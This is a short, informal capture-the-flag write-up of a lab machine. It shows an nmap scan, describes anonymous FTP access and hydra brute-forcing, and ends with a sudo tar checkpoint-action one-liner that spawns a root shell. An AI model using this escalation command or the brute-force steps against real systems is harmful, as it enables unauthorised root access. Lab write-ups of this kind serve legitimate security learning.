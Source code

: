 lol easiest one till date
this was like a speed run
in fucking 6 minutes lol

nmapped
```
# Nmap 7.80 scan initiated Tue Aug 19 19:49:08 2025 as: nmap -A -Pn -oN nmap 10.10.229.80
Nmap scan report for 10.10.229.80
Host is up (0.22s latency).
Not shown: 967 filtered ports, 30 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.5
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: PASV failed: 550 Permission denied.
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.17.19.181
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.5 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Aug 19 19:49:51 2025 -- 1 IP address (1 host up) scanned in 43.20 seconds

```

anon ftp was on
got the passwd list 
bruted it using hydra and got in? too easy to be true

then enumerated and found 
```
User lin may run the following commands on ip-10-10-229-80:
    (root) /bin/tar
```

and bam 
`lin@ip-10-10-229-80:~/Desktop$ sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh`

got root lol